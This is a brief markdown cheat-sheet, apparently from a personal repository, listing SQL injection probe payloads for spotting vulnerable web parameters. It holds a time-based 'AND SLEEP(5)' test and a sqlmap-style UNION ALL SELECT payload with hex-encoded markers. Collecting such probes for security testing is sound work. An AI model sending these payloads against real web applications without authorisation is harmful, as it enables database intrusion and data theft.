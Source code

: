 # sql injection cheat-sheet (of sorts)

i struggle with testing for sql injection points without sqlmap, so i've tried to collect a handful of injection commands that may indicate the webapp in question is vulnerable

###time-based boolean

`id=17 AND SLEEP(5)`

if the webapp sleeps, good indication that the webapp is vuln

###generic union query

`id=-2450 UNION ALL SELECT NULL,CONCAT(0x71626a6b71,0x765865646350576b57536b58766c52534b526248514579716f59476f6
250424d7751426351726d55,0x717a6a6271),NULL,NULL,NULL,NULL,NULL,NULL-- AWCO`




